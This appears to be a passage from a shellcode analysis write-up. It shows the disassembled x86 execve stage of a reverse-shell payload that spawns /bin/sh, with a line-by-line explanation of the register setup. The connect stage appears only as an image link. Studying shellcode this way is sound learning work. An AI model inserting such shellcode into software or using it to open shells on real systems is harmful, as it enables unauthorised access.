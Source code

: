 ![connect](images/revshell/connect.png)

### execve
``` assembly
0x0804c06f <+47>:	push   edx
0x0804c070 <+48>:	push   0x68732f6e
0x0804c075 <+53>:	push   0x69622f2f
0x0804c07a <+58>:	mov    ebx,esp
0x0804c07c <+60>:	push   edx
0x0804c07d <+61>:	push   ebx
0x0804c07e <+62>:	mov    ecx,esp
0x0804c080 <+64>:	mov    al,0xb
0x0804c082 <+66>:	int    0x80
```
Here we see the normal execution of a shell. Pushing 0x68732f6e and 0x69622f2f means //bin/sh and the pointer to this we save in ebx. Then we push this pointer to the stack and also zero which are the arguments for the function. Again the pointer to these arguments are saved in ecx. Then in eax will be loaded with 0xb which is the execve function. Then this syscall will be executed.

